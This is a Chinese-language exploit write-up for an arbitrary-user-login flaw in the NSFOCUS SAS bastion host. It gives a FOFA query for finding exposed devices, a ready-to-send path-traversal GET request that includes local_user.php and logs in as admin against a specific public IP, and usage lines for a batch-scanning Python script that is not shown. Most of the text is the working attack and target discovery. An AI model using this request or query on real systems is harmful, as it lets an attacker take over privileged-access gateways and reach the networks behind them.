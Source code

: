 # 绿盟 SAS堡垒机 local_user.php 任意用户登录漏洞

### 1.漏洞描述

绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719487092994-e4fea1fd-973a-430a-adab-aef472f1901a.png)

### 2.fofa语法

```plain
body="'/needUsbkey.php?username='"
```

### 3.漏洞复现

```plain
GET /api/virtual/home/status?cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin HTTP/1.1
Host: 115.233.211.203
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: close
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719487297499-d6c71d48-fb16-454c-8f27-e10ad813fcee.png)

登录成功

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719487263928-ac3127d3-5d77-4b0b-a348-763ee329e3a6.png)

### 4.py脚本使用

```
python3 文件名 -f url.txt # 批量测试url
python3 文件名 -u http://127.0.0.1 # 单个测试url
```
